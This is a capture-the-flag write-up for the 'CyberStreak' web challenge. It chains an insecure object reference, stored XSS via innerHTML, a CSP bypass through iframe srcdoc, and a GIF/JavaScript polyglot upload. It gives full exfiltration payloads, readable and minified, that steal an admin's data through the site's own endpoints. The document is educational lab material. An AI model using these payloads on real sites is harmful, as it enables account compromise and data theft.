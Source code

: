 # CyberStreak v3.0

> Thank you for your report !
> 
> You can now share your challenges with other users and retrieve challenges proposed by other users. In addition, an interface allows you to compare your progress with other users.
> 
> xXx-michel-xXx
> 
> http://challs.dvc.tf:5003
>
> 	
> *Brute force is strictly forbidden and useless.*
>

- Create a account
- Go into the marketplace
- Link one of the challenges and check the content of the request : `{"id":"i__2Ks5-UQdIUAJ_pDnopaFLux8","username":"None"}`
- This functionnality give us the possibility to link any challenge if we know its id to another user with his username
- Username of the target is `xXx-michel-xXx`
- Create a new challenge
- See that the enable/disable/delete functionnalities in the profile panel are vulnerable to XSS with the use of `innerHTML` (`<b>test</b>`)
- CSP headers + innerHTML -> you have to execute javascript with a file with `<iframe srcdoc="<script src='/path/to/file'></script>"/>`
- To be able to create a javascript file, you need polyglot file GIF / JS : `GIF89a/*<svg/onload=alert(1)>*/=<javascript>//;`
- Because of CSP, you can't do external request -> you can exfiltrate the flag by linking the challenge with the flag to your user
- The following payload can be use to exfiltrate any data of the admin source code : 

```js
exfiltrate_data = btoa(parent.document.getElementById("currentChallenge").src);
// create a challenge to exfiltrate data
let xhr = new XMLHttpRequest();
xhr.open("POST", "/challenge", true);
xhr.setRequestHeader("Content-Type", "application/json");
xhr.onreadystatechange = function () {
    if (this.readyState === 4) {
        if (xhr.status === 200) {
            // get ID
            xhr.open("GET", "/", true);
            xhr.onreadystatechange = function () {
                if (this.readyState === 4) {
                    if (xhr.status === 200) {
                        text = xhr.responseText;
                        const regex = /<div id="([^"]*)/gm;
                        index = text.search(regex);
                        console.log(index);
                        id = text.substring(index + 9, index + 9 + 27);
                        console.log(id);
                        if (id && id != "") {
                            // link to another user
                            let xhr = new XMLHttpRequest();
                            xhr.open("LINK", "/marketplace", true);
                            xhr.setRequestHeader("Content-Type", "application/json");
                            xhr.onreadystatechange = function () {
                                if (this.readyState === 4) {
                                    if (xhr.status === 200) {
                                        console.log("hacked :)");
                                    }
                                }
                            };
                            xhr.send(JSON.stringify({"id": id, "username": "aa"})); // change username here
                        }
                    }
                }
            };
            xhr.send();
        }
    }
};
let data = JSON.stringify({"challenge_name": exfiltrate_data, "image_name": "aa.gif", "image": "data:image/gif;base64,R0lGODlhLyo=", "starting_number": "1", "evolution_step": "1"});
xhr.send(data);
```

- Create an image with the following : 
```js
GIF89a/*<svg/onload=alert(1)>*/=exfiltrate_data=btoa(parent.document.getElementById("currentChallenge").src);let xhr=new XMLHttpRequest;xhr.open("POST","/challenge",!0),xhr.setRequestHeader("Content-Type","application/json"),xhr.onreadystatechange=function(){4===this.readyState&&200===xhr.status&&(xhr.open("GET","/",!0),xhr.onreadystatechange=function(){if(4===this.readyState&&200===xhr.status){text=xhr.responseText;const e=/<div id="([^"]*)/gm;if(index=text.search(e),console.log(index),id=text.substring(index+9,index+9+27),console.log(id),id&&""!=id){let e=new XMLHttpRequest;e.open("LINK","/marketplace",!0),e.setRequestHeader("Content-Type","application/json"),e.onreadystatechange=function(){4===this.readyState&&200===e.status&&console.log("hacked :)")},e.send(JSON.stringify({id:id,username:"michel2"}))}}},xhr.send())};let data=JSON.stringify({challenge_name:exfiltrate_data,image_name:"aa.gif",image:"data:image/gif;base64,R0lGODlhLyo=",starting_number:"1",evolution_step:"1"});xhr.send(data);//;
```
- Look at the source code of the main page to find the URL of the image : `/uploaded_images/961b6dd3ede3cb8ecbaacbd68de040cd78eb2ed5889130cceb4c49268ea4d506/999294d3baf8bf4a5673a0624d73c98f`
- Create another challenge with the following payload as name : `<iframe srcdoc="<script src='/uploaded_images/961b6dd3ede3cb8ecbaacbd68de040cd78eb2ed5889130cceb4c49268ea4d506/999294d3baf8bf4a5673a0624d73c98f'></script>"/>`
- Link this challenge with `xXx-michel-xXx` and get the flag !
